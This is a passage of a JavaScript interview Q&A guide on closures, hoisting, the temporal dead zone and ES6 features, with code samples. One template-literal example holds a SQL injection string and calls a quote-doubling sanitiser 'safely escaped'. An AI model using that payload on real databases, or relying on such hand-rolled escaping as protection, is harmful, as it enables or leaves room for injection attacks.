// Fixed with let (each iteration gets its own binding)
for (let j = 0; j < 3; j++) {
  setTimeout(() => console.log('let:', j), 0); // prints 0, 1, 2
}
```

**Real-World Use Case:**

In large React/Node.js codebases, `var` inside `for` loops iterating over async operations (e.g., firing multiple API calls) was a notorious source of race-condition bugs because all callbacks shared the same `i`. Migrating to `let` (or closure-capturing patterns) eliminated entire categories of production bugs. ESLint\'s `no-var` rule enforces this at scale.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the Temporal Dead Zone (TDZ)?

In ES6, **let** bindings are not subject to "variable hoisting", which means that **let** declarations do not move to the top of the current execution context.

Referencing the variable in the block before the initialization results in a `ReferenceError` (contrary to a variable declared with var, which will just have the **undefined** value). The variable is in a "temporal dead zone" from the start of the block until the initialization is processed.

```js
console.log(x); // ✅ undefined  — var is hoisted and initialised to undefined
var x = 5;

console.log(y); // ❌ ReferenceError: Cannot access 'y' before initialization
let y = 10;

// TDZ also applies inside blocks
{
  // TDZ for 'z' starts here ↓
  // console.log(z); // ReferenceError
  let z = 42;       // TDZ ends here, z is now initialised
  console.log(z);   // 42
}
```

**Real-World Use Case:**

TDZ prevents a subtle bug in module initialisation cycles. If module A imports from module B and module B imports from module A, `const` exports are protected by TDZ, causing a clear `ReferenceError` at the problematic access point rather than silently producing `undefined` computations that corrupt data — making circular-dependency bugs far easier to diagnose in large monorepo setups.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a closure and how does JavaScript implement it internally?

A **closure** is a function that retains a reference to its **lexical environment** (the scope in which it was defined) even after that outer scope has finished executing. In V8, when a function is created, the engine attaches a hidden `[[Environment]]` slot pointing to the current scope\'s **environment record**. As long as the inner function is reachable, the garbage collector keeps the outer environment record alive.

Practically: closures "close over" variables — not values. They hold a live reference to the variable binding, so mutations to that variable are visible inside the closure.

```js
function makeCounter(initialValue = 0) {
  let count = initialValue; // this variable is closed over

  return {
    increment() { return ++count; },
    decrement() { return --count; },
    reset()     { count = initialValue; return count; },
    value()     { return count; },
  };
}

const counter = makeCounter(10);
console.log(counter.increment()); // 11
console.log(counter.increment()); // 12
console.log(counter.decrement()); // 11
console.log(counter.value());     // 11

// count is NOT accessible from outside
// console.log(count); // ReferenceError
```

**Real-World Use Case:**

The Redux store implementation (`createStore`) uses closures to encapsulate `currentState`, `currentReducer`, and `listeners`. External code can only interact with state through the returned `dispatch`, `getState`, and `subscribe` functions — a closure-based module pattern that enforces immutable, predictable state management at scale.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do closures enable the Module Pattern and data encapsulation?

The **Module Pattern** (and its IIFE variant) uses closures to create **private state** — something JavaScript classes did not natively support before ES2022 private fields (`#`). An IIFE runs once, defines private variables, and returns a public API. Only the returned methods can access the private variables via closure.

```js
// Classic Module Pattern (IIFE-based)
const BankAccount = (() => {
  // Private state — not accessible from outside
  let _balance   = 0;
  const _history = [];

  function _log(action, amount) {
    _history.push({ action, amount, balance: _balance, ts: Date.now() });
  }

  // Public API
  return {
    deposit(amount) {
      if (amount <= 0) throw new RangeError('Amount must be positive');
      _balance += amount;
      _log('deposit', amount);
      return this;
    },
    withdraw(amount) {
      if (amount > _balance) throw new Error('Insufficient funds');
      _balance -= amount;
      _log('withdrawal', amount);
      return this;
    },
    getBalance()  { return _balance; },
    getHistory()  { return [..._history]; }, // defensive copy
  };
})();

BankAccount.deposit(500).deposit(200).withdraw(100);
console.log(BankAccount.getBalance()); // 600
console.log(BankAccount._balance);     // undefined — truly private
```

**Real-World Use Case:**

Before ES modules became ubiquitous, large libraries like jQuery, Lodash, and early Angular 1.x used the Module Pattern (IIFE + closure) to avoid polluting the global namespace and to encapsulate internal state. Today, ES modules provide file-level encapsulation, but the closure-based pattern is still used inside modules for class-alternative encapsulation and for factories returned from hooks or composables.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a closure memory leak and how do you prevent it?

A closure memory leak occurs when a closure unintentionally keeps a large object (such as a DOM node, a large dataset, or a complete HTTP response) in memory by holding a reference in its closed-over scope long after the object is needed. The V8 garbage collector cannot reclaim the memory because the closure is still reachable.

Common patterns that cause leaks:
1. **Event listeners not removed** — the listener closes over component state, keeping the entire component tree alive.
2. **Timers not cleared** — `setInterval` callbacks closing over large objects run indefinitely.
3. **Detached DOM nodes** — a closure holds a reference to a DOM node that has been removed from the document.

```js
// ❌ Leak: interval callback closes over largeData forever
function startPolling() {
  const largeData = new Array(100_000).fill('payload');

  const id = setInterval(() => {
    console.log(largeData.length); // largeData is never freed
  }, 1000);

  // Missing: return id so the caller can clearInterval(id)
}

// ✅ Fix: return cleanup, or null out the reference
function startPollingFixed() {
  const largeData = new Array(100_000).fill('payload');

  const id = setInterval(() => {
    process(largeData);
  }, 1000);

  return () => clearInterval(id); // caller must invoke this to free memory
}

const stopPolling = startPollingFixed();
// Later, when no longer needed:
stopPolling(); // interval cleared, largeData eligible for GC
```

**React-specific pattern:**

```js
useEffect(() => {
  const controller = new AbortController();

  fetch('/api/data', { signal: controller.signal })
    .then(res => res.json())
    .then(setData);

  return () => controller.abort(); // cleanup prevents stale closure + memory leak
}, []);
```

**Real-World Use Case:**

In Single Page Applications (SPAs), route navigation causes component unmounting. Event listeners or WebSocket message handlers registered on `mount` but not removed on `unmount` keep the entire component closure alive for the application\'s lifetime, causing memory growth that crashes long-running sessions (e.g., trading dashboards, kiosk apps). React\'s `useEffect` cleanup function pattern was designed specifically to address this.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain the IIFE pattern and when you would use it over ES modules.

An **Immediately Invoked Function Expression (IIFE)** is a function that is defined and called in a single expression. Its primary purpose is to create an isolated scope, preventing variable declarations from leaking into the surrounding (often global) scope.

```
(function() { /* body */ })();
// or with arrow functions:
(() => { /* body */ })();
```

**When to still use IIFEs over ES modules:**
- **Browser script tags without a bundler** — when you cannot use `type="module"` and need scope isolation.
- **Polyfill / library UMD bundles** — output format used by tools like Rollup/Webpack to expose libraries as `window.MyLib` while avoiding global pollution.
- **Initialisation code that must run exactly once** and should not be importable.
- **Micro-optimisation in hot paths** — in rare engine-specific scenarios, an IIFE can help the optimiser treat a block as a separate compilation unit.

```js
// UMD wrapper (simplified) — the output of many bundlers
(function (global, factory) {
  typeof exports === 'object' && typeof module !== 'undefined'
    ? module.exports = factory()                    // CommonJS (Node.js)
    : typeof define === 'function' && define.amd
      ? define(factory)                             // AMD (RequireJS)
      : (global.MyLib = factory());                 // Browser global
}(typeof globalThis !== 'undefined' ? globalThis : this, function () {
  'use strict';

  const VERSION = '1.0.0';        // private
  return { VERSION, greet: (name) => `Hello, ${name}` }; // public API
}));
```

**Real-World Use Case:**

Webpack wraps each module in an IIFE in its legacy output mode to simulate module scope in environments lacking native ES module support (Internet Explorer, older Node.js). When targeting modern environments, Webpack and Rollup emit native ES modules instead, removing the IIFE overhead. Understanding this is essential when configuring `output.libraryTarget` in webpack configs for distributing npm packages.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does the scope chain work during variable lookup, and what is the performance implication?

When a variable is referenced, the JavaScript engine performs a **scope chain lookup**: it starts at the current scope\'s **environment record** and walks up through enclosing records until the variable is found or the global scope is exhausted.

V8 optimises this through:
1. **Hidden classes / shapes** — objects have stable layouts; property access is compiled to a direct memory offset.
2. **Inline caching (IC)** — after the first lookup, V8 caches the resolved location. Repeated access to the same variable from the same call site is O(1).
3. **Closure context allocation** — V8\'s Turbofan compiler performs **context allocation analysis**. Variables that are only used locally stay on the stack (fast). Variables that are closed over are promoted to a **heap-allocated context object** — slightly slower due to heap allocation and GC pressure.

**Performance implication:** deeply nested closures that close over many large variables create long-lived heap contexts. Flattening the closure chain or copying only the needed values can improve GC throughput.

```js
// ❌ Unnecessarily deep scope chain — engine must walk up 3 levels on each access
function level1() {
  const config = loadHeavyConfig(); // heap-allocated context (closed over)

  function level2() {
    function level3() {
      return config.timeout; // 3-level chain lookup
    }
    return level3;
  }
  return level2;
}

// ✅ Flatten: extract only needed value to the immediate scope
function level1Optimised() {
  const { timeout } = loadHeavyConfig(); // only close over what is needed

  function level2() {
    function level3() {
      return timeout; // 1 var, still 3-level chain but smaller context object
    }
    return level3;
  }
  return level2;
}
```

**Real-World Use Case:**

In Node.js request handlers that process millions of requests per minute (e.g., an Express.js API gateway), middleware functions close over the `app` config object. Profiling with `--prof` (V8 tick profiler) or Chrome DevTools' flame graph reveals when heap contexts from closures apply GC pressure. The optimisation is to destructure only required config fields at the module level — keeping the closure context objects small and promoting faster minor GC cycles.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between scope and context (`this`) in JavaScript?

These two concepts are frequently confused but are entirely independent mechanisms:

| | Scope | Context (`this`) |
|---|---|---|
| Determined by | Where code is **written** (lexical) | How a function is **called** (dynamic) |
| Stores | Variable bindings | The object a function is operating upon |
| Changed by | Impossible at runtime | `call`, `apply`, `bind`, arrow functions, class fields |
| Applies to | All identifiers | Only the `this` keyword |

Arrow functions are the intersection: they do **not** create their own `this` binding — they inherit `this` lexically from the enclosing scope at definition time. This makes them behave like closures for `this`.

```js
const timer = {
  label: 'Countdown',
  seconds: 3,

  // ❌ Regular function: `this` is determined by caller (lost in setTimeout callback)
  startBroken() {
    setTimeout(function () {
      console.log(this.label); // undefined — `this` is global/undefined (strict mode)
    }, 1000);
  },

  // ✅ Arrow function: `this` inherited lexically from startFixed\'s scope
  startFixed() {
    setTimeout(() => {
      console.log(this.label); // 'Countdown' ✅
    }, 1000);
  },

  // ✅ Explicit bind alternative
  startWithBind() {
    setTimeout(function () {
      console.log(this.label); // 'Countdown' ✅
    }.bind(this), 1000);
  },
};

timer.startFixed();
```

**Real-World Use Case:**

React class components historically required `.bind(this)` in the constructor for event handlers because a regular function passed as a JSX prop loses its `this` binding. The shift to arrow function class fields (`handleClick = () => { ... }`) and then to functional components with hooks eliminated this entire category of `this`-related bugs — demonstrating that understanding the scope vs. context distinction is foundational to making informed decisions about component architecture.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 11. Hoisting

<br>

## Q. What is hoisting in JavaScript, and what gets hoisted?

Hoisting is a JavaScript mechanism where variable, function, class, and import declarations are conceptually moved to the top of their containing scope during the compilation phase, before the code executes. Hoisting allows functions to be safely used in code before they are declared.

**Example 01:** Variable Hoisting  

```js
console.log(message); // output: undefined
var message = "The variable Has been hoisted";
```

The above code looks like as below to the interpreter,

```js
var message;
console.log(message);
message = "The variable Has been hoisted";
```

**Example 02:** `let` and `const` hoisting

All declarations (function, var, let, const and class) are hoisted in JavaScript, while the `var` declarations are initialized with `undefined`, but `let` and `const` declarations remain uninitialized.

```js
console.log(x);
let x = 10;

// Output: ReferenceError: x is not defined
```

**Example 03:** Function Hoisting

One of the advantages of hoisting is that it lets you use a function before you declare it in your code.

```js
getName("Sadhika Sandal");

function getName(name) {
  console.log("Hello " + name);
}
```

Output:

```js
Hello Sadhika Sandal
```

They will only get initialized when their lexical binding (assignment) is evaluated during runtime by the JavaScript engine. This means we can\'t access the variable before the engine evaluates its value at the place it was declared in the source code. This is what we call **Temporal Dead Zone (TDZ)**, A time span between variable creation and its initialization where they can\'t be accessed.

What gets hoisted and how:

| Declaration | Hoisted? | Initialised to |
|---|---|---|
| `var` | ✅ Yes | `undefined` |
| `let` | ✅ Yes (TDZ) | uninitialised — `ReferenceError` if accessed before declaration |
| `const` | ✅ Yes (TDZ) | uninitialised — `ReferenceError` if accessed before declaration |
| `function` declaration | ✅ Yes | Full function body |
| `function` expression (`var f = function(){}`) | Partially | `var f` hoisted as `undefined`; body is **not** hoisted |
| `class` declaration | ✅ Yes (TDZ) | uninitialised — `ReferenceError` if accessed before declaration |
| `import` | ✅ Yes | Fully evaluated before module body runs |

**Real-World Use Case:**

Node.js module systems and build tools like Webpack rely on function-declaration hoisting to allow modules to call utility functions defined later in the same file — enabling a readable "public API at the top, implementation details below" code style. However, misunderstanding `var` hoisting is responsible for a large class of production bugs in legacy jQuery/Angular 1 codebases, which is why the Airbnb ESLint config bans `var` and mandates `let`/`const`.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. In which case the function definition is not hoisted in JavaScript?

Let us take the following **function expression**

```js
var foo = function foo() {
  return 12;
}
```

In JavaScript `var`-declared variables and functions are `hoisted`. Let us take function `hoisting` first. Basically, the JavaScript interpreter looks ahead to find all the variable declaration and hoists them to the top of the function where It is declared. For example:

```js
foo(); // Here foo is still undefined
var foo = function foo() {
  return 12;
};
```

The code above behind the scene look something like this:

```js
var foo = undefined;
foo(); // Here foo is undefined
foo = function foo() {
  // Some code stuff
}
```

```js
var foo = undefined;
foo = function foo() {
  // Some code stuff
}
foo(); // Now foo is defined here
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does hoisting behave differently for function declarations versus function expressions and arrow functions?

- **Function declaration** (`function foo() {}`): The entire function — name **and** body — is hoisted. The function is callable anywhere in its scope, even before the line it appears on.
- **Function expression** (`const foo = function() {}`): Only the variable declaration is hoisted (if `var`); the assignment — the function value itself — is not. Calling it before the line throws `TypeError` (not `ReferenceError`) because the variable exists but holds `undefined`.
- **Arrow function** (`const foo = () => {}`): Same as function expression — it is always assigned to a variable, so the same rules apply.

```js
// 1. Function Declaration — fully hoisted ✅
console.log(add(2, 3)); // 5

function add(a, b) {
  return a + b;
}

// 2. Function Expression with var — var hoisted as undefined ❌
console.log(multiply); // undefined
// console.log(multiply(2, 3)); // TypeError: multiply is not a function

var multiply = function (a, b) {
  return a * b;
};

// 3. Function Expression with let — TDZ ❌
// console.log(divide(10, 2)); // ReferenceError
const divide = (a, b) => a / b;

// 4. Practical gotcha: conditional function declaration (avoid — browser-dependent)
if (true) {
  function conditionalFn() { return 'inside if'; }
}
// Behaviour in strict mode: conditionalFn is block-scoped to the if-block
// Behaviour in sloppy mode: varies by browser — avoid this pattern entirely
```

**Real-World Use Case:**

In large React component files, developers often define helper arrow functions (`const formatDate = (d) => ...`) after the component function that uses them. Because the component is a `const` arrow function itself, calling `formatDate` inside it only works if `formatDate` is defined above — otherwise a `ReferenceError` occurs at module load time. Understanding hoisting rules guides file organisation: place utility declarations before their consumers, or use function declarations when ordering flexibility matters.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does hoisting interact with the class declaration?

Class declarations are hoisted to the top of their block scope — like `let` and `const` — but they are **not initialised** until the declaration is evaluated. This means they sit in the **Temporal Dead Zone (TDZ)** and accessing a class before its declaration throws a `ReferenceError`, not a `TypeError`. This is a deliberate choice to prevent confusing inheritance hierarchies from being constructed before base classes are fully defined.

```js
// ❌ Class in TDZ — accessing before declaration throws ReferenceError
// const p = new Person('Alice'); // ReferenceError: Cannot access 'Person' before initialization

class Person {
  constructor(name) {
    this.name = name;
  }
  greet() {
    return `Hi, I am ${this.name}`;
  }
}

const p = new Person('Alice'); // ✅
console.log(p.greet());        // 'Hi, I am Alice'

// Class expression — same as function expression: name is in TDZ if const/let
const Animal = class {
  constructor(species) {
    this.species = species;
  }
};

const dog = new Animal('Canis lupus'); // ✅
```

**Practical implication — class vs. function constructor:**

```js
// Function constructor: hoisted entirely — can be used before declaration
const f = new Foo(); // ✅
function Foo() { this.x = 1; }

// Class: TDZ — cannot be used before declaration
// const b = new Bar(); // ❌ ReferenceError
class Bar { constructor() { this.x = 1; } }
```

**Real-World Use Case:**

When splitting large Node.js services into files with circular `require()` references, class-based modules that are accessed during the `require()` cycle before the class declaration evaluates throw `ReferenceError`. Understanding the TDZ for classes helps engineers design module load order carefully — or avoid circular dependencies by refactoring to dependency injection patterns (e.g., passing the class as a parameter rather than importing it at the module level).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the hoisting behaviour inside `let`/`const` blocks, and how does it affect switch statements?

`let` and `const` are block-scoped and hoisted within their block to the TDZ. A `switch` statement\'s `{}` is a **single block** — all `case` clauses share the same block scope. This causes a subtle bug: a `let` declared in one `case` is technically in scope (hoisted) for all other cases in the same switch block, causing a `SyntaxError` if another `case` attempts to declare the same name.

```js
// ❌ SyntaxError: Identifier 'result' has already been declared
function getLabel(status) {
  switch (status) {
    case 'active':
      let result = 'User is active';   // hoisted to top of switch block
      return result;
    case 'inactive':
      let result = 'User is inactive'; // SyntaxError — same block, same name
      return result;
  }
}

// ✅ Fix 1: wrap each case in its own block
function getLabelFixed(status) {
  switch (status) {
    case 'active': {
      let result = 'User is active';
      return result;
    }
    case 'inactive': {
      let result = 'User is inactive'; // own block — no conflict
      return result;
    }
    default:
      return 'Unknown';
  }
}

// ✅ Fix 2: prefer object lookup over switch for simple mappings
const STATUS_LABELS = {
  active:   'User is active',
  inactive: 'User is inactive',
};
const getLabel2 = (status) => STATUS_LABELS[status] ?? 'Unknown';
```

**Real-World Use Case:**

This exact bug has appeared in production Redux reducers where developers switched from `var` to `let` during a linting migration. All `case` branches in a reducer\'s `switch` share one block, so re-declaring `let draft` in multiple cases causes a `SyntaxError` caught only at parse time — blocking the entire app from loading. The standard Redux Toolkit solution is to use Immer-based `createSlice` instead, which replaces the `switch` reducer pattern entirely.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does hoisting affect the execution order of multiple `var` declarations and function declarations with the same name?

When multiple `var` declarations or function declarations share the same identifier in the same scope, the engine applies specific precedence rules during the compilation phase:

1. **`var` declarations** are merged into one — only one `undefined` slot is allocated; whichever assignment executes last wins at runtime.
2. **Function declarations** override `var` declarations of the same name during hoisting — the function body wins over `var`\'s `undefined`.
3. **Multiple function declarations** with the same name: the **last** one in source order wins (it overwrites the earlier one during hoisting).

```js
// What does the programmer see:
var x = 1;
function x() { return 'fn'; }
var x = 2;

// What the engine processes during compilation:
// 1. var x → undefined (registered)
// 2. function x → x = function() { return 'fn'; } (overwrites var)
// 3. (execution phase) x = 1
// 4. (execution phase) x = 2
console.log(x); // 2 — last assignment wins

// Multiple function declarations — last one wins
function greet() { return 'Hello'; }
function greet() { return 'Hi'; }   // overwrites the first
console.log(greet()); // 'Hi'

// var + function same name — function hoisted OVER var during compilation
console.log(typeof answer); // 'function' (not 'undefined')
var answer = 42;
function answer() { return 'forty-two'; }
console.log(answer); // 42 — runtime assignment overrides the function
```

**Why this matters architecturally:**

In large legacy codebases (pre-modules), concatenating multiple script files together frequently caused silent name collisions of this kind. Two files each declaring `var config = ...` or `function init() {}` would silently overwrite each other. The last file in the bundle always won, causing intermittent and environment-specific bugs that only appeared in production where file concatenation order differed from the development setup.

**Real-World Use Case:**

This collision class of bugs was a primary driver for the adoption of the **Module Pattern** (IIFE-based), then **AMD/CommonJS**, and ultimately **ES modules** — each solution adding a layer of scope isolation to prevent hoisting-based name collisions. Modern bundlers (Webpack, Rollup) assign each module its own scope by wrapping it, making cross-module `var` collision impossible. Understanding this history explains why `"use strict"` and ES modules are defaults in all modern toolchains.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 12. ES6 Features

<br>

## Q. How do arrow functions differ from regular functions, and when should you not use them?

Arrow functions (`=>`) introduced in ES2015 are a concise syntax for writing functions, but they are **not** simply shorthand for `function`. They have fundamental semantic differences:

| Feature | Regular Function | Arrow Function |
|---|---|---|
| `this` binding | Dynamic — determined by call site | Lexical — inherits from enclosing scope |
| `arguments` object | ✅ Available | ❌ Not available (use rest params) |
| `new` (constructor) | ✅ Can be used | ❌ Throws `TypeError` |
| `prototype` property | ✅ Has one | ❌ `undefined` |
| `super` / `new.target` | ✅ Own binding | ❌ Inherited from enclosing scope |
| Method shorthand | Usable (with caution) | Avoid for object methods needing `this` |

**When NOT to use arrow functions:**
1. **Object methods** that need dynamic `this` (`obj.method()` — arrow\'s `this` is the enclosing scope, not `obj`).
2. **Constructor functions** — arrow functions cannot be called with `new`.
3. **Event handlers** that need `this` to refer to the DOM element (`element.addEventListener('click', () => {})` — `this` is the outer context, not the element).
4. **Generator functions** — arrow syntax does not support `function*`.
5. **Functions that need their own `arguments` object**.

```js
// --- Concise bodies ---
const double  = x => x * 2;              // single param, expression body
const add     = (a, b) => a + b;         // multiple params
const toUpper = str => ({ upper: str.toUpperCase() }); // returning an object literal — wrap in ()

// --- `this` lexical binding ---
class Timer {
  constructor() {
    this.ticks = 0;
  }

  start() {
    // Arrow function: `this` is the Timer instance (lexical)
    this.interval = setInterval(() => {
      this.ticks++;
      console.log(this.ticks);
    }, 1000);
  }

  stop() {
    clearInterval(this.interval);
  }
}

// --- When NOT to use arrow ---
const counter = {
  count: 0,
  // ❌ Arrow: `this` is the module/global scope, not counter
  incrementBad: () => { counter.count++; },
  // ✅ Method shorthand: `this` is counter
  incrementGood() { this.count++; },
};

// ❌ Arrow as constructor
// const p = new (() => {}); // TypeError: (intermediate value) is not a constructor

// ❌ No own `arguments`
const fn = () => {
  // console.log(arguments); // ReferenceError in strict mode / module scope
};
const fn2 = (...args) => args; // ✅ Use rest params instead
```

**Real-World Use Case:**

React\'s functional components and hooks use arrow functions almost exclusively for event handlers passed as JSX props (`onClick={() => dispatch(action)}`). Because these arrow functions inherit `this` from the component scope (which in a functional component is irrelevant — there is no `this`), the lexical binding is harmless and the concise syntax reduces boilerplate. Conversely, in Express.js route handlers or Mongoose middleware that rely on `this` referring to the document/request, using arrow functions is a common production bug — the official Mongoose docs explicitly warn against it.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are template literals, and what are their advanced capabilities beyond string interpolation?

Template literals (backtick strings) introduced in ES2015 offer four key capabilities over traditional string literals:

1. **String interpolation** — embed any expression with `${expr}`.
2. **Multi-line strings** — newlines are literal; no `\n` needed.
3. **Expression evaluation** — any valid JavaScript expression inside `${}` including ternaries, function calls, and arithmetic.
4. **Tagged templates** — a function (tag) is called with the string parts and interpolated values, enabling domain-specific languages (DSLs), sanitisation, and localisation.

```js
// 1. Interpolation
const user = { name: 'Alice', score: 42 };
console.log(`Player: ${user.name}, Score: ${user.score * 2}`); // Player: Alice, Score: 84

// 2. Multi-line
const html = `
  <article>
    <h1>${user.name}</h1>
    <p>Score: ${user.score}</p>
  </article>
`.trim();

// 3. Expressions inside ${}
const items = ['apple', 'banana', 'cherry'];
console.log(`You have ${items.length} item${items.length !== 1 ? 's' : ''}.`);
// 'You have 3 items.'

// 4. Tagged template literals
function highlight(strings, ...values) {
  return strings.reduce((result, str, i) =>
    result + str + (values[i] !== undefined ? `<mark>${values[i]}</mark>` : ''),
    ''
  );
}

const product = 'JavaScript';
const year = 2015;
console.log(highlight`${product} was standardised in ${year}.`);
// '<mark>JavaScript</mark> was standardised in <mark>2015</mark>.'

// SQL injection prevention with tagged templates (concept)
function sql(strings, ...values) {
  const sanitised = values.map(v => sanitiseInput(v)); // escape each interpolated value
  return strings.reduce((q, str, i) => q + str + (sanitised[i] ?? ''), '');
}
function sanitiseInput(v) { return String(v).replace(/'/g, "''"); }

const userId = "1' OR '1'='1"; // SQL injection attempt
const query = sql`SELECT * FROM users WHERE id = '${userId}'`;
// SELECT * FROM users WHERE id = '1'' OR ''1''=''1'  — safely escaped
```

**Real-World Use Case:**

The `styled-components` and `emotion` CSS-in-JS libraries are built entirely on tagged template literals. When you write `` styled.div`color: ${props => props.primary ? 'blue' : 'grey'};` ``, the library\'s tag function receives the static CSS parts and the dynamic value functions, generates a unique class name, injects a `<style>` rule, and tracks theme changes — all without any custom parser. This demonstrates that tagged templates can implement fully featured DSLs (CSS, GraphQL, SQL, i18n) natively in JavaScript with zero dependencies.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain destructuring assignment — object, array, nested, and with defaults.

Destructuring is a syntax for unpacking values from arrays or properties from objects into distinct variables in a single statement. It is purely syntactic sugar — the engine converts it to a series of property accesses and assignments.

```js
// ── Object destructuring ──────────────────────────────────────────────────────

const user = { id: 1, name: 'Alice', role: 'admin', address: { city: 'NYC', zip: '10001' } };

// Basic
const { id, name } = user;

// Rename (alias)
const { name: username, role: userRole } = user;
console.log(username, userRole); // 'Alice', 'admin'

// Default values (used when property is undefined)
const { theme = 'light', lang = 'en' } = user;
console.log(theme, lang); // 'light', 'en'

// Nested destructuring
const { address: { city, zip } } = user;
console.log(city, zip); // 'NYC', '10001'

// Rest in object destructuring
const { id: userId, ...rest } = user;
console.log(userId); // 1
console.log(rest);   // { name: 'Alice', role: 'admin', address: {...} }

// ── Array destructuring ───────────────────────────────────────────────────────

const rgb = [255, 128, 0];

const [red, green, blue] = rgb;
const [r, , b] = rgb;    // skip elements with empty commas
const [first, ...others] = rgb; // rest in array

// Swap variables without temp
let a = 1, bVal = 2;
[a, bVal] = [bVal, a];
console.log(a, bVal); // 2, 1

// Default values
const [x = 0, y = 0, z = 0] = [10, 20];
console.log(x, y, z); // 10, 20, 0

// ── Function parameter destructuring ─────────────────────────────────────────

function renderCard({ title, subtitle = 'No subtitle', tags = [] } = {}) {
  return `<h1>${title}</h1><h2>${subtitle}</h2><ul>${tags.map(t => `<li>${t}</li>`).join('')}</ul>`;
}

renderCard({ title: 'Hello', tags: ['js', 'es6'] });
renderCard(); // ✅ uses defaults — the `= {}` prevents TypeError when called with no args

// ── Mixed / deeply nested ─────────────────────────────────────────────────────

const apiResponse = {
  data: {
    users: [
      { id: 1, profile: { avatar: 'alice.png' } },
      { id: 2, profile: { avatar: 'bob.png' } },
    ],
  },
};

const { data: { users: [{ id: firstId, profile: { avatar: firstAvatar } }] } } = apiResponse;
console.log(firstId, firstAvatar); // 1, 'alice.png'
```

**Real-World Use Case:**

React\'s `useState` hook returns a two-element array precisely to enable array destructuring with custom naming: `const [count, setCount] = useState(0)`. This pattern lets each call site choose its own variable names without the library needing to know them. Similarly, React component props are universally destructured in the function signature (`function Button({ label, onClick, disabled = false }) {}`), reducing prop-drilling verbosity and making prop contracts immediately visible — a pattern enforced by most team style guides and ESLint configs.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between the rest parameter and the spread operator?

Both use the `...` syntax but serve opposite purposes:

| | Rest (`...params`) | Spread (`...iterable`) |
|---|---|---|
| Position | Last parameter in a function signature | Call site, array literal, or object literal |
| Purpose | **Collects** multiple arguments into an array | **Expands** an iterable/object into individual elements |
| Result | One `Array` | Multiple values |

```js
// ── Rest parameter ───────────────────────────────────────────────────────────

function sum(...numbers) {           // collects all args into an array
  return numbers.reduce((acc, n) => acc + n, 0);
}
console.log(sum(1, 2, 3, 4)); // 10

function log(level, ...messages) {   // first arg fixed, rest collected
  console[level](messages.join(' '));
}
log('warn', 'Disk', 'usage', 'high'); // console.warn('Disk usage high')

// ── Spread operator ──────────────────────────────────────────────────────────

// 1. Expanding arrays
const nums = [1, 2, 3];
const more = [...nums, 4, 5];        // [1, 2, 3, 4, 5]
const copy = [...nums];              // shallow copy

// 2. Spreading into a function call
console.log(Math.max(...nums));      // 3

// 3. Merging / cloning objects (shallow)
const defaults = { theme: 'light', lang: 'en', debug: false };
const userPrefs = { theme: 'dark', fontSize: 14 };
const config = { ...defaults, ...userPrefs }; // right side wins on key collision
// { theme: 'dark', lang: 'en', debug: false, fontSize: 14 }

// 4. Spreading a string into characters
const chars = [..."hello"]; // ['h', 'e', 'l', 'l', 'o']

// 5. Converting NodeList / Set to Array
const unique = [...new Set([1, 1, 2, 3, 3])]; // [1, 2, 3]
```

**Real-World Use Case:**

Redux reducers use object spread to produce new state immutably without mutating the existing state object — a requirement of Redux\'s change-detection mechanism: `return { ...state, isLoading: false, data: action.payload }`. This replaces `Object.assign({}, state, { isLoading: false })` with far more readable syntax. The V8 engine optimises spread-based object cloning with the same hidden-class mechanisms as `Object.assign`, so there is no meaningful performance difference in most application code.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain ES6 `Map` and `Set` — how do they differ from plain objects and arrays, and when should you use them?

**`Set`** is a collection of **unique values** of any type. It maintains insertion order and provides O(1) `has()` lookup (hash-based internally in V8).

**`Map`** is a collection of **key-value pairs** where keys can be **any type** (including objects, functions, and `NaN`). Plain objects only allow string/Symbol keys.

| Feature | `Object` | `Map` |
|---|---|---|
| Key types | String / Symbol only | Any value (including objects) |
| Ordered | Not guaranteed (though V8 preserves insertion order for string keys in practice) | Insertion order guaranteed by spec |
| Size | `Object.keys(obj).length` — O(n) | `map.size` — O(1) |
| Iteration | `for...in` (includes prototype) / `Object.entries()` | `for...of`, `forEach`, direct iterators |
| Prototype pollution | Possible (e.g., `__proto__`) | Not possible |
| JSON serialisable | ✅ | ❌ (needs custom serialiser) |

| Feature | `Array` | `Set` |
|---|---|---|
| Uniqueness | No — duplicates allowed | Yes — duplicates silently ignored |
| `has` / membership | `indexOf` / `includes` — O(n) | `set.has()` — O(1) |
| Ordered | Index-based | Insertion-order |

```js
// ── Set ──────────────────────────────────────────────────────────────────────

const visited = new Set();
visited.add('/home');
visited.add('/about');
visited.add('/home');   // duplicate — silently ignored

console.log(visited.size);        // 2
console.log(visited.has('/about')); // true (O(1))

// Deduplicate an array
const tags = ['js', 'css', 'js', 'html', 'css'];
const uniqueTags = [...new Set(tags)]; // ['js', 'css', 'html']

// ── Map ──────────────────────────────────────────────────────────────────────

const cache = new Map();

// Object as key (impossible with plain objects as keys)
const req1 = { url: '/api/users' };
const req2 = { url: '/api/posts' };

cache.set(req1, { data: [1, 2, 3], ts: Date.now() });
cache.set(req2, { data: ['a', 'b'], ts: Date.now() });

console.log(cache.get(req1).data); // [1, 2, 3]
console.log(cache.size);           // 2

// Iteration
for (const [key, value] of cache) {
  console.log(key.url, value.data);
}

